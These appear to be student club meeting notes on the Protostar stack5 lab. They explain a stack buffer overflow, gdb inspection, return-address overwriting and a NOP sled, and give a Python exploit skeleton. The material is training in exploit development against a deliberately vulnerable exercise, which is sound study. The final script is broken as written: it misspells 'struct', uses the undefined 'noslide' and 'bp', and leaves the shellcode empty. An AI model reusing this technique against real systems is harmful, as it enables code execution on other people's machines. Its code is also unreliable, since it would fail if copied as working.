 # Code injection wish shell code.

> See the previous meeting notes https://github.com/GVSU-Computing-Club/Meeting-Notes/blob/master/11-1-18-Exploiting.md 

Resource for shell code: http://shell-storm.org/shellcode/ 
## Stack 5
----------------------
|					 |
| Buffer (64 bytes)  | 
|					 |
----------------------
|   Base Pointer     |
----------------------
|   Return Pointer   | <- Change this to where our shell code
----------------------
|     0xbffff7f0     |
|     Shell code     |
----------------------
We want to modify the return address to point to your shell code so you can do whatever you want.

We are not able to modify code at in the folder, so we will run code from the home directory

```
cd ~
ln -s /opt/protostar/stack5/ ./stack5

```

Make a file called exploit.py

```
#!/usr/bin/env python 

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQRRRRSSSSTTTTUUUUVVVV"

print(padding)

```

```
$ chmod +x exploit.py
$ ./exploit.py > input
```

The above code helps us measure where the return address. It was found that the return address is where 'TTTT' is.

You can put gdb commands in ```vim .gdbinit``` which will run everytime that you run gdbs

```
set disassembly-flavor intel #Sets assembly to intel style 
set breakpoint pending on #Lets you put breakpoints anywhere without questions

b main #Sets breakpoint at the main function
```

```
run < input #Pass input to the 
c #continue
x/40xw $esp #Examine 40 words and print it out it in hex where $esp is locateds
c #continue
```
Continue moves instruction by instruction 

A problem is that the location of the stack may change so....


NOP is an instruction that means don't do anything.
So we will fill out space the space between the return address and our shell code.

----------------------
| Return Pointer Addr| 
----------------------
|                    |
|                    |
|                    |
|                    |
|        NOP         |  <- Return pointer 
|                    | 
|                    |
|                    |
|                    |
----------------------
|     0xbffff7f0     |
|     Shell code     |
----------------------

```
#!/usr/bin/env python
import struct

#Make a string for the padding that will go up to the reutnr address
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQRRRRSSSS"

#Make a string for the new return address
address = struck.pack("I", 0xbffff7f0+50)

#Make a string for 100 NOP instructions
nopslide = "\x90"*100

#The shellcode we are injecting 
shellcode = ""

payload = padding + address + noslide + bp

print(payload)
```

**Your address might be different. Use gdb to find the address**